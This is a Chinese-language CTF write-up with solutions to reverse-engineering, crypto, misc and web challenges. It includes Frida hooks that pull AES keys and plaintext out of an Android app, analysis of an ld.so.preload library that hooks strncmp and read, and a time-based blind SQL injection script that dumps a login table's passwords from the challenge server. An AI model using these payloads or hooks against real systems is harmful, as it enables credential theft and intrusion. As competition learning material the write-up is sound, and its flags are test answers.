iv有了，base64密文有了，但是aad用JNI.INSTANCE.native_natget(new byte[]{0x7B, 0x71, 109, 99, 97, 0x7A, 0x7C, 105})不对，试了很多发现hook最合适，趁机学了学frida；hook了很多地方发现还魔改了key，getAt返回的是mysecretadd，

~~~js
Java.perform(function () {
    // 获取JNI类的引用
    var JNI = Java.use("com.atri.ezcompose.JNI");

    // Hook `getAt` 方法
    JNI.getAt.implementation = function () {
        // 打印调试信息
        console.log("JNI.getAt() 被调用");

        // 调用原始的 getAt 方法
        var result = this.getAt();

        // 打印返回值
        console.log("getAt() 返回值: " + result);

        return result;  // 返回结果
    };

    // Hook native_natget 方法
    JNI.native_natget.overload('[B').implementation = function (arg1) {
        // 打印调用时传递的参数
        console.log("native_natget() 被调用，参数: " + arg1);

        // 你可以在这里修改参数或者改变返回值
        var result = this.native_natget(arg1);

        // 打印返回值
        console.log("native_natget() 返回值: " + result);

        return result;  // 返回结果
    };

    // 获取 Cipher 类的引用
    var Cipher = Java.use("javax.crypto.Cipher");

    // Hook `updateAAD` 方法
    Cipher.updateAAD.overload('[B').implementation = function(aad) {
        // 打印传入的 AAD（附加认证数据）
        console.log("updateAAD 被调用，传入的 AAD: " + aad);

        // 调用原始的 updateAAD 方法
        this.updateAAD(aad);
    };

    Cipher.doFinal.overload('[B').implementation = function(enc) {
        // 打印传入的 AAD（附加认证数据）
        console.log("doFinal 被调用，传入的 enc: " + enc);
        console.log("doFinal 被调用，传出的 dec: " + this.doFinal(enc));

        return this.doFinal(enc);
    };

    // 获取 SecretKeySpec 类的引用
    var SecretKeySpec = Java.use("javax.crypto.spec.SecretKeySpec");

    // Hook SecretKeySpec 构造方法
    SecretKeySpec.$init.overload('[B', 'java.lang.String').implementation = function(key, algorithm) {
        // 打印密钥字节数组
        console.log("SecretKeySpec 被调用，传入的 key: " + key);
        console.log("使用的算法: " + algorithm);

        // 调用原始构造方法
        return this.$init(key, algorithm);
    };
});

~~~

解密

~~~java
import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.spec.GCMParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.nio.charset.StandardCharsets;
import java.util.Arrays;
import java.util.Base64;

public class AES_GCM {

    public static void main(String[] args) throws Exception {
        // 示例密钥，假设你已经有了密钥
        SecretKey key = new SecretKeySpec(new byte[]{97,116,114,105,107,101,121,115,115,121,101,107,105,114,116,97}, "AES");

        // Base64 编码的密文，假设你已经有了 Base64 编码后的密文字符串
        String base64Ciphertext = "MTE0NTE0HMuJKLOW1BqCAi2MxpHYjGjpPq82XXQ/jgx5WYrZ2MV53a9xjQVbRaVdRiXFrSn6EcQPzA=="; // 示例密文

        // 解码 Base64
        byte[] decodedCiphertext = Base64.getDecoder().decode(base64Ciphertext);

        // 提取前6个字节作为 IV
        byte[] iv = new byte[6];
        System.arraycopy(decodedCiphertext, 0, iv, 0, 6);
        System.out.println(new String(iv));
        // 剩余部分是密文
        byte[] ciphertext = new byte[decodedCiphertext.length - 6];
        System.arraycopy(decodedCiphertext, 6, ciphertext, 0, ciphertext.length);

        // AAD 为 "mysecretadd"
        byte[] aad = "mysecretadd".getBytes(StandardCharsets.UTF_8);
        System.out.println(Arrays.toString(encrypt("aaaaa".getBytes(StandardCharsets.UTF_8), key, iv, aad)));
        // 解密操作
        byte[] decryptedText = decrypt(ciphertext, key, iv, aad);

        // 打印解密后的明文
        System.out.println("Decrypted text: " + new String(decryptedText, StandardCharsets.UTF_8));
    }

    public static byte[] decrypt(byte[] ciphertext, SecretKey key, byte[] iv, byte[] aad) throws Exception {
        // 创建 AES/GCM 解密器
        Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");

        // 创建 GCM 参数并初始化
        GCMParameterSpec spec = new GCMParameterSpec(128, iv); // Tag 长度为 128 位（16 字节）
        cipher.init(Cipher.DECRYPT_MODE, key, spec);

        // 更新 AAD（附加认证数据）
        if (aad != null) {
            cipher.updateAAD(aad);
        }

        // 解密并返回明文
        return cipher.doFinal(ciphertext);  // 返回解密后的数据
    }

    public static byte[] encrypt(byte[] ciphertext, SecretKey key, byte[] iv, byte[] aad) throws Exception {
        // 创建 AES/GCM 解密器
        Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");

        // 创建 GCM 参数并初始化
        GCMParameterSpec spec = new GCMParameterSpec(128, iv); // Tag 长度为 128 位（16 字节）
        cipher.init(Cipher.ENCRYPT_MODE, key, spec);

        // 更新 AAD（附加认证数据）
        if (aad != null) {
            cipher.updateAAD(aad);
        }

        // 解密并返回明文
        return cipher.doFinal(ciphertext);  // 返回解密后的数据
    }
}
~~~

### 抽奖转盘

直接压缩包找出来abc文件和so文件，找最新的jadx-dev-all.jar（abc-decompiler）来反编译，旧版本找不到密文，核心文件在p000entry/src/main/ets/pages

~~~java
[101, 74, 76, 49, 101, 76, 117, 87, 55, 69, 118, 68, 118, 69, 55, 67, 61, 83, 62, 111, 81, 77, 115, 101, 53, 73, 83, 66, 68, 114, 109, 108, 75, 66, 97, 117, 93, 127, 115, 124, 109, 82, 93, 115]
public Object #~@0>@4*#(Object functionObject, Object newTarget, MyPage this, Object arg0, Object arg1) {
        _lexenv_0_0_[arg1] = (arg0 + 1) ^ 7;
        return null;
    }

~~~

找到了一个密文数组和一个加密，打印下得到`aLJ5aJqO/ApBpA/C9S8gUIsa1MSDBtijKDeqYwsziTYs`很像base64加密

~~~python
s = [101, 74, 76, 49, 101, 76, 117, 87, 55, 69, 118, 68, 118, 69, 55, 67, 61, 83, 62, 111, 81, 77, 115, 101, 53, 73, 83, 66, 68, 114, 109, 108, 75, 66, 97, 117, 93, 127, 115, 124, 109, 82, 93, 115]
print(len(s))
for i in range(len(s)):
    s[i] = (s[i]^7)-1
print(bytes(s))
~~~

下面去看so，找到核心函数

~~~c
__int64 __fastcall sub_28230(__int64 a1, __int64 a2)
{
  __int64 v2; // rax
  size_t v4; // [rsp+28h] [rbp-178h]
  double v5; // [rsp+40h] [rbp-160h]
  __int64 v6; // [rsp+88h] [rbp-118h]
  __int64 v7; // [rsp+90h] [rbp-110h] BYREF
  char v8[31]; // [rsp+98h] [rbp-108h] BYREF
  char v9; // [rsp+B7h] [rbp-E9h] BYREF
  __int64 v10; // [rsp+B8h] [rbp-E8h] BYREF
  __int64 v11; // [rsp+C0h] [rbp-E0h] BYREF
  char v12[24]; // [rsp+C8h] [rbp-D8h] BYREF
  char v13[24]; // [rsp+E0h] [rbp-C0h] BYREF
  double y; // [rsp+F8h] [rbp-A8h] BYREF
  double x; // [rsp+100h] [rbp-A0h] BYREF
  __int64 v16; // [rsp+108h] [rbp-98h] BYREF
  char dest[112]; // [rsp+110h] [rbp-90h] BYREF
  __int64 s[4]; // [rsp+180h] [rbp-20h] BYREF

  s[3] = __readfsqword(0x28u);
  if ( a1 && a2 )
  {
    v16 = 3LL;
    memset(s, 0, 0x18uLL);
    if ( (unsigned int)napi_get_cb_info(a1, a2, &v16, s, 0LL) )
    {
      OH_LOG_Print(0LL, 6LL, 65280LL, "MyCry", "api_get_cb_info failed");
      return 0LL;
    }
    else
    {
      x = 0.0;
      y = 0.0;
      if ( (unsigned int)napi_get_value_double(a1, s[0], &x) || (unsigned int)napi_get_value_double(a1, s[1], &y) )
      {
        OH_LOG_Print(0LL, 6LL, 65280LL, "MyCry", "napi_get_value failed");
        return 0LL;
      }
      else
      {
        sub_287D0(v13, a1, s[2]);
        v2 = sub_288E0(v13);
        OH_LOG_Print(0LL, 6LL, 65280LL, "MyCry", "ts_putString str = %{public}s", v2);
        sub_28900(v12);
        v11 = sub_28990(v13);
        v10 = sub_28A00(v13);
        while ( (sub_28A80(&v11, &v10) & 1) != 0 )
        {
          v9 = *(_BYTE *)sub_28AB0(&v11) + 3;
          sub_28AD0(v12, &v9);
          sub_28B30(&v11);
        }
        v5 = _mm_cvtepi32_pd(_mm_cvttpd_epi32((__m128d)COERCE_UNSIGNED_INT64(hypot(x, y)))).m128d_f64[0];
        std::__n1::basic_string<char,std::__n1::char_traits<char>,std::__n1::allocator<char>>::basic_string[abi:v15004]<decltype(nullptr)>(
          v8,
          "Take_it_easy");
        OH_LOG_Print(0LL, 6LL, 65280LL, "MyCry", "Result: %{public}f", v5);
        if ( v5 == 40.0 )
          sub_i111iIl1i(v12, v8, (unsigned int)(int)v5);
        else
          sub_i111iIlii(v12, v8, (unsigned int)(int)v5);
        memset(dest, 0, 0x64uLL);
        if ( (unsigned __int64)sub_27AE0(v12) < 0x5A )
          base64_encode((__int64)v12, dest);
        else
          strcpy(dest, "oh!you_are_toooooo_long!!!!!!");
        v4 = strlen(dest);
        if ( (unsigned int)napi_create_string_utf8(a1, dest, v4, &v7) )
        {
          OH_LOG_Print(0LL, 6LL, 65280LL, "MyCry", "napi_create_double failed");
          v6 = 0LL;
        }
        else
        {
          v6 = v7;
        }
        std::__n1::basic_string<char,std::__n1::char_traits<char>,std::__n1::allocator<char>>::~basic_string(v8);
        sub_28BD0(v12);
        std::__n1::basic_string<char,std::__n1::char_traits<char>,std::__n1::allocator<char>>::~basic_string(v13);
      }
    }
  }
  else
  {
    OH_LOG_Print(0LL, 6LL, 65280LL, "MyCry", "env or exports is null");
    return 0LL;
  }
  return v6;
}
~~~

sub_i111iIl1i或sub_i111iIlii处理后再base64加密

~~~c
// attributes: thunk
__int64 sub_i111iIl1i()
{
  return _Z13sub_i111iIl1iRNSt4__n16vectorIcNS_9allocatorIcEEEERKNS_12basic_stringIcNS_11char_traitsIcEES2_EEi();
}
unsigned __int64 __fastcall sub_i111iIl1i(__int64 a1, __int64 a2, char a3)
{
  _BYTE *v3; // rax
  _BYTE *v4; // rax
  char v6; // [rsp+8h] [rbp-258h]
  unsigned __int64 k; // [rsp+20h] [rbp-240h]
  int v8; // [rsp+28h] [rbp-238h]
  int j; // [rsp+2Ch] [rbp-234h]
  int v10; // [rsp+30h] [rbp-230h]
  int v11; // [rsp+30h] [rbp-230h]
  int i; // [rsp+34h] [rbp-22Ch]
  int v13; // [rsp+38h] [rbp-228h]
  char v15[520]; // [rsp+50h] [rbp-210h] BYREF
  unsigned __int64 v16; // [rsp+258h] [rbp-8h]

  v16 = __readfsqword(0x28u);
  v13 = sub_27DD0(a2);
  for ( i = 0; i < 256; ++i )
  {
    v15[i + 256] = i;
    v15[i] = *(_BYTE *)sub_27DF0(a2, i % v13);
  }
  v10 = 0;
  for ( j = 0; j < 256; ++j )
  {
    v10 = ((unsigned __int8)v15[j] + (unsigned __int8)v15[j + 256] + v10) % 256;
    sub_27E20(&v15[j + 256], &v15[v10 + 256]);
  }
  v8 = 0;
  v11 = 0;
  for ( k = 0LL; k < sub_27AE0(a1); ++k )
  {
    v8 = (v8 + 1) % 256;
    v11 = ((unsigned __int8)v15[v8 + 256] + v11) % 256;
    sub_27E20(&v15[v8 + 256], &v15[v11 + 256]);
    v6 = v15[((unsigned __int8)v15[v11 + 256] + (unsigned __int8)v15[v8 + 256]) % 256 + 256];
    v3 = (_BYTE *)sub_27B00(a1, k);
    *v3 ^= v6;
    v4 = (_BYTE *)sub_27B00(a1, k);
    *v4 ^= a3;
  }
  return __readfsqword(0x28u);
}
~~~

两个显然都是rc4，前者传入40多异或了，后者异或0x18

最后的sub 3没找到，还是观察到规律才发现

### AndroidLux

java层并没有找到加密解密的地方，但是有很多信息：

这是Client类，里面建立了套接字并发送数据，注意关键词`mahoshojo`

~~~java
package work.pangbai.androidlux;

import android.net.LocalSocket;
import android.net.LocalSocketAddress.Namespace;
import android.net.LocalSocketAddress;
import android.util.Log;
import java.io.IOException;
import java.io.InputStream;

public class Client {
    public interface ConnectListener {
        void onReceiveData(String arg1);
    }

    private static final int HANDMESSAGE = 0x44417A9F;
    private final String SOCKET_NAME;
    private static final String TAG = "Socket";
    private LocalSocketAddress address;
    private LocalSocket client;
    private int connetTime;
    private boolean isConnected;
    private ConnectListener mListener;
    private static Client mLocalSocketClientManager;

    static {
        Client.mLocalSocketClientManager = null;
    }

    public Client() {
        this.SOCKET_NAME = "mahoshojo";
        this.isConnected = false;
        this.connetTime = 1;
    }

    public void connectAndSendLocalSocketServer(String send) {
        if(this.isConnected) {
            new Thread(() -> this.send(send)).start();
            return;
        }

        this.client = new LocalSocket();
        this.address = new LocalSocketAddress("mahoshojo", LocalSocketAddress.Namespace.ABSTRACT);
        new Thread(() -> while(this.connetTime <= 10) {
            try {
                Thread.sleep(1000L);
                Log.i("Socket", "Try to connect socket;ConnectTime:" + this.connetTime);
                this.client.connect(this.address);
                this.isConnected = true;
                if(!this.client.isConnected()) {
                    continue;
                }

                this.send(send);
                Log.i("Socket", "Connect Server success\n");
            }
            catch(Exception e) {
                ++this.connetTime;
                this.isConnected = false;
                throw new RuntimeException(e);
            }
        }).start();
    }

    public void disconnect() {
        try {
            this.client.close();
        }
        catch(IOException e) {
            e.printStackTrace();
        }
    }

    public static Client getInstance() {
        if(Client.mLocalSocketClientManager == null) {
            Class v0 = Client.class;
            synchronized(v0) {
                if(Client.mLocalSocketClientManager == null) {
                    Client.mLocalSocketClientManager = new Client();
                }

                return Client.mLocalSocketClientManager;
            }
        }

        return Client.mLocalSocketClientManager;
    }

    public void send(String data) {
        try {
            this.client.getOutputStream().write(data.getBytes());
            InputStream inputStream = this.client.getInputStream();
            if(inputStream == null) {
                Log.e("TAG", "inputStream error");
                return;
            }

            byte[] buffer = new byte[0x400];
            while(true) {
                int v4 = inputStream.read(buffer);
                if(v4 == -1) {
                    return;
                }

                String recedata = new String(buffer, 0, v4);
                MainActivity.handler.post(() -> this.mListener.onReceiveData(recedata));
            }
        }
        catch(IOException e) {
            e.printStackTrace();
        }
    }

    public void setOnConnectListener(ConnectListener listener) {
        this.mListener = listener;
    }
}

~~~

这是init类，里面调用了busybox，执行了一些命令

> BusyBox combines tiny versions of many common UNIX utilities into a single small executable. It provides replacements for most of the utilities you usually find in GNU fileutils, shellutils, etc. The utilities in BusyBox generally have fewer options than their full-featured GNU cousins; however, the options that are included provide the expected functionality and behave very much like their GNU counterparts. BusyBox provides a fairly complete environment for any small or embedded system.

~~~java
package work.pangbai.androidlux;

import android.app.Dialog;
import android.content.Context;
import android.content.Intent;
import android.widget.Toast;
import java.io.File;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;

public class Init {
    static final boolean $assertionsDisabled;
    public static String binDir;
    public static String busyboxPath;
    Dialog dialog;

    static {
    }

    public Init(Context context) {
        Init.binDir = context.getFilesDir().getAbsolutePath();
        Init.busyboxPath = Init.binDir + "/busybox";
        if(context.getFilesDir().list().length <= 2) {
            this.dialog = DialogUtils.showConfirmationDialog(context, "初始化环境中", "Loading ...", null, null);
            Util.runThread(() -> try {
                this.installEnv(context);
                MainActivity.handler.post(() -> {
                    Toast.makeText(context, "Initiation is complete", 0).show();
                    context.startService(new Intent(context, Service.class));
                });
                this.dialog.dismiss();
                return;
            }
            catch(Exception e) {
                Toast.makeText(context, "An error occurred at initialization \nPlease remove the data of app and try again", 0).show();
                throw new RuntimeException(e);
            });
            return;
        }

        context.startService(new Intent(context, Service.class));
    }

    boolean installEnv(Context context) throws IOException, InterruptedException {
        IO.copyAssetsDirToSDCard(context, "busybox", Init.binDir);
        new File(Init.busyboxPath).setExecutable(true);
        cmdExer.setCwd(Init.binDir);
        cmdExer.execute("ln -s busybox env", false, false);
        cmdExer.execute("ln -s busybox sh", false, false);
        cmdExer.execute("ln -s busybox basename", false, false);
        cmdExer.setCwd(Init.binDir);
        cmdExer.execute("tar -xJf - -C " + Init.binDir, false, false);
        OutputStream outputStream = cmdExer.process.getOutputStream();
        InputStream inputStream = context.getAssets().open("env");
        byte[] buffer = new byte[0x800];
        while(inputStream != null) {
            int v5 = inputStream.read(buffer);
            if(v5 == -1) {
                inputStream.close();
                outputStream.close();
                return cmdExer.process.waitFor() == 0;
            }

            outputStream.write(buffer, 0, v5);
        }

        throw new AssertionError();
    }
}
~~~

关注到同样打开了env文件，不断解压发现最终是一个系统目录

发现时间有猫腻，于是找出了所有1.17修改的文件（比赛时候最后5min才发现，但最后看了wp才知道还有好多步没做完），分别是env、ld.so.preload和libexec.so，都很可疑

一个个分析，首先是env，里面出现了mahoshojo以及可疑base64表和加密字符串，但解密不对（还有花指令要处理下，注意arm的nop不是0x90）：

~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // w0
  char *v5; // x19
  size_t v6; // x0
  char buf[260]; // [xsp+28h] [xbp+28h] BYREF
  socklen_t addr_len; // [xsp+12Ch] [xbp+12Ch] BYREF
  struct sockaddr addr; // [xsp+130h] [xbp+130h] BYREF
  struct sockaddr s[7]; // [xsp+1A0h] [xbp+1A0h] BYREF
  char *s1; // [xsp+210h] [xbp+210h] BYREF
  int v12; // [xsp+21Ch] [xbp+21Ch]
  int v13; // [xsp+220h] [xbp+220h]
  int v14; // [xsp+224h] [xbp+224h]
  ssize_t v15; // [xsp+228h] [xbp+228h]
  int v16; // [xsp+234h] [xbp+234h]
  socklen_t len; // [xsp+238h] [xbp+238h]
  int fd; // [xsp+23Ch] [xbp+23Ch]

  fd = socket(1, 1, 0);
  if ( fd == -1 )
  {
    perror("Socket creation failed");
    exit(1);
  }
  memset(s, 0, 0x6EuLL);
  s[0].sa_family = 1;
  strcpy(s[0].sa_data, "#mahoshojo");
  len = strlen(s[0].sa_data) + 2;
  s[0].sa_data[0] = 0;
  if ( bind(fd, s, len) == -1 )
  {
    perror("Bind failed");
    close(fd);
    exit(1);
  }
  if ( listen(fd, 5) == -1 )
  {
    perror("Listen failed");
    close(fd);
    exit(1);
  }
  printf("Server listening on abstract socket namespace '%s'\n", "mahoshojo");
  addr_len = 110;
  v16 = accept(fd, &addr, &addr_len);
  if ( v16 != -1 )
  {
    puts("Client connected");
    while ( 1 )
    {
      while ( 1 )
      {
        v15 = read(v16, buf, 0xFFuLL);
        if ( v15 > 0 )
          break;
LABEL_18:
        if ( v15 == -1 )
          perror("Read failed");
        puts("Client disconnected");
      }
      buf[v15] = 0;
      printf("Received from client: %s\n", buf);
      v4 = strlen(buf);
      encodeBase64((__int64)buf, v4, &s1);
      v14 = 3;
      v13 = 4;
      v12 = 6;
      sqrt((double)25);
      if ( !strncmp(s1, mm, 0x34uLL) )
      {
        s1 = "ok";
      }
      else if ( strlen(buf) == 37 )
      {
        s1 = (char *)&unk_1488;
      }
      else
      {
        s1 = (char *)&unk_14A0;
      }
      v5 = s1;
      v6 = strlen(s1);
      if ( write(v16, v5, v6) == -1 )
      {
        perror("Write failed");
        goto LABEL_18;
      }
    }
  }
  perror("Accept failed");
  return 0;
}
~~~

base64发现换表位数变了，解密也要注意

再分析[ld.so.preload](https://zhuanlan.zhihu.com/p/575574549)，可以知道每次加载里面的libexec.so文件，来分析该so文件，可以发现hook了strncmp和read函数

~~~c
__int64 __fastcall strncmp(__int64 a1, const char *a2, __int64 a3)
{
  size_t v3; // x19
  char v8[260]; // [xsp+48h] [xbp+48h] BYREF
  unsigned int (__fastcall *v9)(char *, const char *, __int64); // [xsp+150h] [xbp+150h]
  int i; // [xsp+15Ch] [xbp+15Ch]

  v9 = (unsigned int (__fastcall *)(char *, const char *, __int64))dlsym((void *)0xFFFFFFFFFFFFFFFFLL, "strncmp");
  for ( i = 0; ; ++i )
  {
    v3 = i;
    if ( v3 >= strlen(a2) )
      break;
    if ( *(unsigned __int8 *)(a1 + i) <= 0x40u || *(unsigned __int8 *)(a1 + i) > 0x4Du )
    {
      if ( *(unsigned __int8 *)(a1 + i) <= 0x4Du || *(unsigned __int8 *)(a1 + i) > 0x5Au )
      {
        if ( *(unsigned __int8 *)(a1 + i) <= 0x60u || *(unsigned __int8 *)(a1 + i) > 0x6Du )
        {
          if ( *(unsigned __int8 *)(a1 + i) <= 0x6Du || *(unsigned __int8 *)(a1 + i) > 0x7Au )
            v8[i] = *(_BYTE *)(a1 + i);
          else
            v8[i] = *(_BYTE *)(a1 + i) - 13;
        }
        else
        {
          v8[i] = *(_BYTE *)(a1 + i) + 13;
        }
      }
      else
      {
        v8[i] = *(_BYTE *)(a1 + i) - 13;
      }
    }
    else
    {
      v8[i] = *(_BYTE *)(a1 + i) + 13;
    }
  }
  return v9(v8, a2, a3);
}

__int64 __fastcall read(unsigned int a1, __int64 a2, __int64 a3)
{
  __int64 v7; // [xsp+38h] [xbp+38h]
  __int64 (__fastcall *v8)(_QWORD, __int64, __int64); // [xsp+40h] [xbp+40h]
  int i; // [xsp+4Ch] [xbp+4Ch]

  v8 = (__int64 (__fastcall *)(_QWORD, __int64, __int64))dlsym((void *)0xFFFFFFFFFFFFFFFFLL, "read");
  v7 = v8(a1, a2, a3);
  for ( i = 0; v7 > i; ++i )
    *(_BYTE *)(a2 + i) ^= 1u;
  return v7;
}
~~~

到这里就搞懂了，输入先异或1，在魔改base64，再rot13

~~~python
custom_b64_chars = "TUVWXYZabcdefghijABCDEF456789GHIJKLMNOPQRSklmnopqrstuvwxyz0123+/"
char_to_index = {char: idx for idx, char in enumerate(custom_b64_chars)}

def decode_custom_base64(encoded_str):
    encoded_str = encoded_str.rstrip('=')
    bit_stream = []
    for char in encoded_str:
        if char in char_to_index:
            bit_stream.append(char_to_index[char])
        else:
            raise ValueError(f"Invalid character: {char}")
    decoded_bytes = []
    for i in range(0, len(bit_stream), 4):
        chunk = bit_stream[i:i + 4]
        if len(chunk) < 4:
            chunk += [0] * (4 - len(chunk))
        byte1 = (chunk[0] << 2) | (chunk[1] & 3)
        byte2 = ((chunk[1] >> 2) << 4) | (chunk[2] & 0xf)
        byte3 = ((chunk[2] >> 4) << 6) | chunk[3]
        decoded_bytes.extend([byte1^1, byte2^1, byte3^1])
    padding_length = encoded_str.count('=')
    if padding_length:
        decoded_bytes = decoded_bytes[:-padding_length]
    return bytes(decoded_bytes)

encoded_str = b"RPVIRN40R9PU67ue6RUH88Rgs65Bp8td8VQm4SPAT8Kj97QgVG=="
encoded_str1 = ""
for i in encoded_str:
    if i in range(ord("A"), ord("M")+1):
        encoded_str1 += chr(i+13)
    elif i in range(ord("M")+1, ord("Z")+1):
        encoded_str1 += chr(i-13)
    elif i in range(ord("a"), ord("m")+1):
        encoded_str1 += chr(i+13)
    elif i in range(ord("m")+1, ord("z")+1):
        encoded_str1 += chr(i-13)
    else:
        encoded_str1 += chr(i)
decoded_data = decode_custom_base64(encoded_str1)
print(decoded_data)	# b'VNCTF{Ur_go0d_@ndr0id&l1nux_Reve7ser}\x01\x01'
~~~

## Crypto

### easymath

首先z3可以求解三个素数

~~~python
from sympy import legendre_symbol
from z3 import *

a = Int("a")
b = Int("b")
c = Int("c")
s = Solver()
s.add(a+b+c==15264966144147258587171776703005926730518438603688487721465)
s.add(a*b*c==125440939526343949494022113552414275560444252378483072729156599143746741258532431664938677330319449789665352104352620658550544887807433866999963624320909981994018431526620619)
s.add(a*b+a*c+b*c==76513250180666948190254989703768338299723386154619468700730085586057638716434556720233473454400881002065319569292923)
N = 1
if s.check() == sat:
    ans = s.model()
    print(ans)
    N = ans[a].as_long()*ans[b].as_long()*ans[c].as_long()
    print(N)
~~~

然后是一个a^2modN，可以利用中国剩余定理

~~~python
from sympy import sqrt_mod
from sympy.ntheory.modular import solve_congruence

# 重新定义素因子
b = 5487564316951417093934647798659941512646442958127439071827
c = 3868765709106144154703556118635822400623994075212553582411
a = 5908636118089697338533572785710162817248001570348495067227

# 重新定义 c_value
c_value = 24884251313604275189259571459005374365204772270250725590014651519125317134307160341658199551661333326703566996431067426138627332156507267671028553934664652787411834581708944

# 计算 c_value 在每个素数模下的平方根
sqrt_a = sqrt_mod(c_value, a, all_roots=True)
sqrt_b = sqrt_mod(c_value, b, all_roots=True)
sqrt_c = sqrt_mod(c_value, c, all_roots=True)

# 使用中国剩余定理合并解
solutions = []
for x in sqrt_a:
    for y in sqrt_b:
        for z in sqrt_c:
            res = solve_congruence((x, a), (y, b), (z, c))
            if res:
                solutions.append(res[0])

print(solutions)
print(bytes.fromhex(hex(325714524936805045870599916394859742487396082609853016904206306797799294429908134765584705104874385528562768869049154397624863645707696788955369048469602267457592373819517)[2:]))# VNCTF{90dcfb2dfb21a21e0c8715cbf3643f4a47d3e2e4b3f7b7975954e6d9701d9648}
~~~

## Misc

### VN_Lang

exe里字符串里有flag（我做的时候怀疑我智商了，分析图案半天）

## Web

### 奶龙回家

没有回显只能盲注

https://blog.csdn.net/2201_75824562/article/details/139362754，查出来是sqlite，可以利用randomblob延迟

~~~python
import requests

url = 'http://node.vnteam.cn:48743/login'
flag = ''
for i in range(1, 500):
    low = 32
    high = 128
    mid = (low + high) // 2
    while low < high:
        payload = 'select/**/group_concat(password)/**/from/**/users'
        password = f"'or/**/(case/**/when(substr(({payload}),{i},1)>'{chr(mid)}')/**/then/**/randomblob(1000000000)/**/else/**/0/**/end)--"
        json = {"username": 'nailong', "password": password}
        try:
            res = requests.post(url=url, json=json, timeout=2)
        except Exception:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 127):
        break
    flag = flag+chr(mid)
    print(flag)

~~~

得到密码woaipangmao114514，登录即可看flag

